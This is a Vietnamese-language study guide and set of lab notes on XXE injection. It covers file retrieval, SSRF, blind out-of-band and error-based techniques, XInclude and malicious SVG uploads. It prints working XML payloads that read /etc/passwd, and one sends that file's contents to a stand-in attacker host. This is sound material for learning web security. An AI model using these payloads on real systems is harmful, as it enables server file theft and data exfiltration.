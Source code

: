 # **XML external entity (XXE) injection**

## **XML external entity injection là gì?**

- Đây là một lỗ hổng cho phép kẻ tấn công can thiệp vào quá trình xử lý XML của website.

- Nó thường cho phép kẻ tấn công xem các tệp trên hệ thống tệp của máy chủ ứng dụng và tương tác với bất kỳ hệ thống phụ trợ hoặc bên ngoài nào mà bản thân ứng dụng có thể truy cập.

![](./img_XXE/1.png)

## **Lỗ hổng XXE phát sinh như thế nào?**

- Một số ứng dụng sử dụng định dạng XML để truyển dữ liệu giữa trình duyệt và máy chủ. Các ứng dụng thực hiện điều này hầu như luôn sử dụng API nền tảng hoặc thư viện tiêu chuẩn để xử lý dữ liệu XML trên máy chủ.

- Chúng ta sẽ đi tìm hiểu XML là gì:
  - XML là một ngôn ngữ được thiết kế để lưu trữ và vận chuyển dữ liệu. Giống như HTML, XML sử dụng cấu trúc thẻ và dữ liệu giống như cây. Không giống như HTML, XML không sử dụng các thẻ được xác định trước và do đó, các thẻ có thể được đặt tên mô tả dữ liệu.

    ![](./img_XXE/2.png)

  - Document type : DTD được khai báo trong phần tử DOCTYPE tùy chọn ở đầu tài liệu XML. DTD có thể hoàn toàn độc lập trong chính tài liệu (được gọi là "DTD nội bộ") hoặc có thể được tải từ nơi khác (được gọi là "DTD bên ngoài") hoặc có thể kết hợp cả hai.

  ![](./img_XXE/3.png)

  - Đoạn trên có nghĩa tất cả `&myentity;` sẽ được thay thế bằng `"my entity value"`.

  ![](./img_XXE/4.png)

## **Types of XXE attacks**

> ### **Khai thác XXE để truy xuất tệp**

- Tôi đã có một ứng dụng web check hàng tồn kho có sử dụng XML để lấy dữ liệu.

![](./img_XXE/5.png)

- Như các bạn đã thấy nó check với productId là 2 và StoreId là 1. Việc sử dụng XML để lấy dữ liệu. Đó một lỗ hổng nghiêm trọng mà chung ta có thể truy xuất file máy chủ để đọc.

- Từ đấy tôi đã đọc được file hệ thống.Bằng cách như sau:

![](./img_XXE/6.png)

> ### **Khai thác XXE để thực hiện các cuộc tấn công SSRF**

- Chúng ta có thể vận dụng lỗ hổng XXE để thực hiện lỗ hổng SSRF việc chúng ta cần làm ở đây là chúng ta sẽ thử URL để xem phía back-end có sự tương tác với bên ngoài hay không.

![](./img_XXE/7.png)

- Từ điều trên ta có thể lấy được key và token của `Amazon Elastic Compute Cloud (Amazon EC2) instances` và thông tin cloud.

> ### **Khai thác Blind XXE**

- Blind XXE là lỗ hổng chúng ta có thể injection XXE vào nhưng ứng dụng không trả về bất cứ thông tin nào. Từ đó, việc khai thác XXE sẽ khó có thể phát hiện hơn.

- Có 2 hình thức chính có thể khai thác được lỗ hổng Blind XXE:
  - Sử dụng kĩ thuật out-of-band network, đôi khi nó có thể làm lộ dữ liệu nhạy cảm trong khi tương tác. (`Chưa hiểu rõ`)
  - Kích hoạt lỗi phân tích cú pháp XML theo cách sao cho các thông báo lỗi chứa dữ liệu nhạy cảm.

> ### **Detecting blind XXE using out-of-band (OAST) techniques**

- Bạn có thể phát hiện blind XXE bằng cách sử dụng kỹ thuật tương tự như XXE SSRF nhưng kết hợp với phương pháp out-of-band network.

```
<!DOCTYPE foo [ <!ENTITY xxe SYSTEM "http://f2g9j7hhkax.web-attacker.com"> ]>
```

- Dưới đây là một bài lab mô phỏng kỹ thuật này:

> Blind XXE with out-of-band interaction

![](./img_XXE/8.png)

- Như ta thấy ở trang web này chúng ta có chức năng check stock sử dụng XML để kiểm tra dữ liệu.

![](./img_XXE/9.png)

- Tôi đã thử một số cách tấn công XXE nhưng dường như nó không hoạt động:

![](./img_XXE/10.png)

- Tôi đã thử thêm kỹ thuật tấn công có thêm kỹ thuật SSRF:

![](./img_XXE/11.png)

- Từ đấy, ta có thể biết ứng dụng có thể giao tiếp ra bên ngoài.

> Blind XXE with out-of-band interaction via XML parameter entities

```
<!DOCTYPE stockCheck [<!ENTITY % xxe SYSTEM "http://BURP-COLLABORATOR-SUBDOMAIN"> %xxe; ]>
```

> ### **Exploiting blind XXE to exfiltrate data out-of-band**

- Dưới đây là một payload dùng để đọc nội dung `file:///etc/passwd`

```
<!ENTITY % file SYSTEM "file:///etc/passwd">
<!ENTITY % eval "<!ENTITY &#x25; exfiltrate SYSTEM 'http://web-attacker.com/?x=%file;'>">
%eval;
%exfiltrate;
```

- DTD này thực hiện các bước sau:

  - Định nghĩa một thực thể tham số XML được gọi là tệp, chứa nội dung của tệp /etc/passwd.
  - Định nghĩa một thực thể tham số XML được gọi là eval, chứa một khai báo động của một thực thể tham số XML khác được gọi là exfiltrate.
  - Thực thể exfiltrate sẽ được đánh giá bằng cách thực hiện một yêu cầu HTTP tới máy chủ web của kẻ tấn công có chứa giá trị của thực thể tệp trong chuỗi truy vấn URL.
  - Sử dụng thực thể eval, làm cho khai báo động của thực thể exfiltrate được thực hiện.
  Sử dụng thực thể lọc để giá trị của nó được đánh giá bằng cách gửi request URL được chỉ định.

> ### **Exploiting blind XXE to retrieve data via error messages**

- Một cách tiếp cận khác để khai thác Blind XXE là kích hoạt lỗi phân tích cú pháp XML trong đó thông báo lỗi chứa dữ liệu nhạy cảm mà kẻ tấn công muốn truy xuất.

```
<!ENTITY % file SYSTEM "file:///etc/passwd">
<!ENTITY % eval "<!ENTITY &#x25; error SYSTEM 'file:///nonexistent/%file;'>">
%eval;
%error;
```

- DTD này thực hiện các bước sau:

  - Định nghĩa một thực thể tham số XML được gọi là tệp, chứa nội dung của tệp /etc/passwd.
  - Định nghĩa một thực thể tham số XML được gọi là eval, chứa một khai báo động của một thực thể tham số XML khác được gọi là lỗi. Thực thể lỗi sẽ được đánh giá bằng cách tải một tệp không tồn tại có tên chứa giá trị của thực thể tệp.
  - Sử dụng thực thể eval, làm cho khai báo động của thực thể lỗi được thực hiện.
  - Sử dụng thực thể lỗi để giá trị của nó được đánh giá bằng cách thử tải tệp không tồn tại, dẫn đến thông báo lỗi chứa tên của tệp không tồn tại, là nội dung của tệp /etc/passwd.

> ### **Tìm bề mặt tấn công XXE**

> #### **XInclude attacks**

- Một số ứng dụng nhận dữ liệu do máy khách gửi, nhúng nó ở phía máy chủ vào tài liệu XML, sau đó phân tích cú pháp tài liệu. Một ví dụ về điều này xảy ra khi dữ liệu do khách hàng gửi được đặt vào một yêu cầu SOAP , sau đó được xử lý bởi dịch vụ SOAP.

- Trong tình huống này, bạn không thể thực hiện một cuộc tấn công XXE cổ điển, bởi vì bạn không kiểm soát toàn bộ tài liệu XML và do đó không thể xác định hoặc sửa đổi một phần tử DOCTYPE. Tuy nhiên, bạn có thể sử dụng XInclude để thay thế. XInclude là một phần của đặc tả XML cho phép một tài liệu XML được xây dựng từ các tài liệu phụ. Bạn có thể thực hiện một cuộc tấn công XInclude trong bất kỳ giá trị dữ liệu nào trong tài liệu XML, vì vậy cuộc tấn công có thể được thực hiện trong các tình huống mà bạn chỉ kiểm soát một mục dữ liệu được đặt trong tài liệu XML phía máy chủ.

```
<foo xmlns:xi="http://www.w3.org/2001/XInclude">
<xi:include parse="text" href="file:///etc/passwd"/></foo>
```

![](./img_XXE/12.png)

- Như ta đã thấy, ở phía client gửi đi ở dạng json nhưng bên phía máy chủ thực hiện xử lý dữ liệu ở dạng XML.

![](./img_XXE/13.png)

> #### **XXE attacks via file upload**

- Một số ứng dụng muốn nhận định dạng như PNG hoặc JPEG, thư viện xử lý hình ảnh đang được sử dụng có thể hỗ trợ hình ảnh SVG. Vì định dạng SVG sử dụng XML nên kẻ tấn công có thể gửi hình ảnh SVG độc hại và do đó tiếp cận bề mặt tấn công ẩn cho các lỗ hổng XXE.

![](./img_XXE/14.png)

```
<?xml version="1.0" standalone="yes"?><!DOCTYPE test [ <!ENTITY xxe SYSTEM "file:///etc/hostname" > ]><svg width="128px" height="128px" xmlns="http://www.w3.org/2000/svg" xmlns:xlink="http://www.w3.org/1999/xlink" version="1.1"><text font-size="16" x="0" y="16">&xxe;</text></svg>

```
